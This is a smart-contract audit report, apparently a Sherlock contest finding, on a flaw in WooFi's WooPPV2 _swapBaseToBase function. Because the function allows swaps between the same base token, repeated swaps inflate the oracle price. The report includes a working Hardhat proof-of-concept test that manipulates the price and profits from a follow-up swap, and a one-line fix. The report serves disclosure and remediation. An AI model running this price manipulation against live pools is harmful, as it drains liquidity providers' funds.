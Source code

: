 Blurry Gingerbread Lion

high

# _swapBaseToBase: Can mipulate base token price by swapping between same base token

## Summary

Can swap between the same Base tokens, which can increase the price of the Base token.

## Vulnerability Detail

In the `_swapBaseToBase` function, which swaps between Base tokens, it does not check if the two tokens being swapped are the same. Therefore, it is possible to swap between the same tokens.

At the beginning of the function, it fetches and caches the price information of the token. Hence, the value of the fromToken and toToken is calculated based on the same price information. The updated price information during the operation does not affect this swap.

```solidity
    function _swapBaseToBase(
        address baseToken1,
        address baseToken2,
        uint256 base1Amount,
        uint256 minBase2Amount,
        address to,
        address rebateTo
    ) private nonReentrant whenNotPaused returns (uint256 base2Amount) {
@>      require(baseToken1 != address(0) && baseToken1 != quoteToken, "WooPPV2: !baseToken1");
@>      require(baseToken2 != address(0) && baseToken2 != quoteToken, "WooPPV2: !baseToken2");
        require(to != address(0), "WooPPV2: !to");

        require(balance(baseToken1) - tokenInfos[baseToken1].reserve >= base1Amount, "WooPPV2: !BASE1_BALANCE");

@>      IWooracleV2.State memory state1 = IWooracleV2(wooracle).state(baseToken1);
@>      IWooracleV2.State memory state2 = IWooracleV2(wooracle).state(baseToken2);

```

Since the fromToken is processed first, the price decrease caused by the fromToken processing is ignored, and the price increase caused by the toToken is applied. Therefore, swapping between the same Base tokens increases the price of the Base token.

```solidity
      {
          uint64 spread = _maxUInt64(state1.spread, state2.spread) / 2;
          uint16 feeRate = _maxUInt16(tokenInfos[baseToken1].feeRate, tokenInfos[baseToken2].feeRate);

          state1.spread = spread;
          state2.spread = spread;

          uint256 newBase1Price;
@>        (quoteAmount, newBase1Price) = _calcQuoteAmountSellBase(baseToken1, base1Amount, state1);
@>        IWooracleV2(wooracle).postPrice(baseToken1, uint128(newBase1Price)); // @audit-info ignored
          // console.log('Post new base1 price:', newBase1Price, newBase1Price/1e8);

          swapFee = (quoteAmount * feeRate) / 1e5;
      }

      quoteAmount = quoteAmount - swapFee;
      unclaimedFee = unclaimedFee + swapFee;

      tokenInfos[quoteToken].reserve = uint192(tokenInfos[quoteToken].reserve - swapFee);
      tokenInfos[baseToken1].reserve = uint192(tokenInfos[baseToken1].reserve + base1Amount);

      {
          uint256 newBase2Price;
@>        (base2Amount, newBase2Price) = _calcBaseAmountSellQuote(baseToken2, quoteAmount, state2);
@>        IWooracleV2(wooracle).postPrice(baseToken2, uint128(newBase2Price));
          // console.log('Post new base2 price:', newBase2Price, newBase2Price/1e8);
          require(base2Amount >= minBase2Amount, "WooPPV2: base2Amount_LT_minBase2Amount");
      }
```

The tokens in the pool can be stolen. Using flash loans, it can cause significant damage.

- Repeat Base1 -> Base1 swap
    - Base1 price increase
- Base1 -> Base2 swap
    - Attacker can get more Base2

This is PoC. Add to the WooPPv2.test.ts file and run. It can be executed with `yarn hardhat test --grep "PoC swap same base token"`.

```solidity
it("PoC swap same base token", async () => {
  _clearUser1Balance();

  await btcToken.approve(wooPP.address, ONE.mul(1000));
  await wooPP.deposit(btcToken.address, ONE.mul(1000));

  await usdtToken.approve(wooPP.address, ONE.mul(30000000));
  await wooPP.deposit(usdtToken.address, ONE.mul(30000000));

  await wooToken.approve(wooPP.address, ONE.mul(100000000));
  await wooPP.deposit(wooToken.address, ONE.mul(100000000));

  await btcToken.mint(user1.address, ONE.mul(200));
  await usdtToken.mint(user1.address, ONE.mul(100000));

  const preUserWoo = await wooToken.balanceOf(user1.address);
  const preUserBtc = await btcToken.balanceOf(user1.address);

  const swapAmount = ONE.mul(150); // BTC -> USDT amount (swap after manipulate price)
  const precalculatedWooTokenProfit = BigNumber.from("3845719745891444"); // precalculated extra USDT profit (swap after manipulate price)
  const originalWooTokenAmount = await wooPP.query(btcToken.address, wooToken.address, swapAmount); // BTC -> USDT amount (swap after manipulate price)
  const btcValuePrecalculatedWooTokenProfit = await wooPP.query(
    wooToken.address,
    btcToken.address,
    precalculatedWooTokenProfit
  ); // original value of USDT profit

  const [btcPriceBefore, btcFeasibleBefore] = await wooracle.price(btcToken.address);
  expect(btcPriceBefore).to.eq(PRICE_DEC.mul(BTC_PRICE));
  expect(btcFeasibleBefore).to.eq(true);

  // -- swap same base token --
  const sameswapAmount = ONE.div(1000000);
  const minSameswapAmount = sameswapAmount.mul(997).div(1000);

  for (let i = 0; i < 10; i++) {
    console.log("swap " + (i + 1) + "/10");
    await btcToken.connect(user1).transfer(wooPP.address, sameswapAmount);
    await wooPP
      .connect(user1)
      .swap(btcToken.address, btcToken.address, sameswapAmount, minSameswapAmount, user1.address, ZERO_ADDR);
  }
  const postUserBtc = await btcToken.balanceOf(user1.address);
  const costBtc = preUserBtc.sub(postUserBtc);

  const [btcPriceAfter, btcFeasibleAfter] = await wooracle.price(btcToken.address);
  expect(btcPriceAfter).to.gt(PRICE_DEC.mul(BTC_PRICE)); // price is increased
  expect(btcFeasibleAfter).to.eq(true);

  // --- swap BTC -> USDT ---
  await btcToken.connect(user1).transfer(wooPP.address, swapAmount);
  await wooPP.connect(user1).swap(btcToken.address, wooToken.address, swapAmount, 0, user1.address, ZERO_ADDR);

  const swapAfterUserWoo = await wooToken.balanceOf(user1.address);
  const swappedWoo = swapAfterUserWoo.sub(preUserWoo);
  const profitWoo = swappedWoo.sub(originalWooTokenAmount);

  expect(profitWoo).to.eq(precalculatedWooTokenProfit);
  expect(btcValuePrecalculatedWooTokenProfit).to.gt(costBtc); // profit > cost
}).timeout(1000000);
```

## Impact

It is possible to manipulate the price of the Base token and drain tokens from the pool.

## Code Snippet

[https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L521-L522](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L521-L522)

[https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L527-L528](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L527-L528)

[https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L555-L556](https://github.com/sherlock-audit/2024-03-woofi-swap/blob/65185691c91541e33f84b77d4c6290182f137092/WooPoolV2/contracts/WooPPV2.sol#L555-L556)

## Tool used

Manual Review

## Recommendation

```diff
    function _swapBaseToBase(
        address baseToken1,
        address baseToken2,
        uint256 base1Amount,
        uint256 minBase2Amount,
        address to,
        address rebateTo
    ) private nonReentrant whenNotPaused returns (uint256 base2Amount) {
        require(baseToken1 != address(0) && baseToken1 != quoteToken, "WooPPV2: !baseToken1");
        require(baseToken2 != address(0) && baseToken2 != quoteToken, "WooPPV2: !baseToken2");
+       require(baseToken1 != baseToken2, "WooPPV2: !same token");
```